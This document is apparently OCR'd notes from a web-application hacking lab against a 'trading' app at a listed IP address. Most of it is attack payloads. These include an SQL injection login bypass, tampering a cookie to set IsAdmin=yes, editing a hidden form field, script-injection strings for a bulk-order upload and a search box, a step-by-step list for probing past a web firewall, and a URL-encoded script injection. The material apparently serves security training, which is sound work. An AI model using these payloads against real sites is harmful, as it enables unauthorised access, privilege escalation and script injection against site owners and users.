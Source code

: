 
Login Box:

	' or 1=1 or ''='
	anything   			(click login instead of pressing enter)



Tamper Data: (notice 2 session IDs)

	AcmeTrading=a4b796687b846dd4a34931d708c62b49; 		SessionID is md5
	IsAdmin=yes; 
	ASP.NET_SessionId=d10dlsvaq5uj1g550sotcg45



Profile - Detail	(tamper data)
	Disposition: form-data; name="ctl00$contentMiddle$HiddenField1"\r\n\r\njoe\r\n
	joe|set


	xss_upload.txt (Upload Bulk Order)
	<script>alert(123);</script>




############################
# Trading Web App with WAF #
# http://54.213.131.105    #
############################


Try the following in the search box:
	<script>alert(123);</script>
	<script>alert(123);</script
	<script>alert(123)
	<script>alert
	<script>
	<script
	<scrip
	<scri
	<scr
	<sc
	<s
	<p
	<
	< s
	Joe'+OR+1=1;--

	
Open a new tab in firefox and try this:
	http://54.213.131.105/Searchresult.aspx?%u003cscript>prompt(123)%u003c/script>=ScriptName


	xss_upload.txt (Upload Bulk Order)
	<script>alert(123);</script>
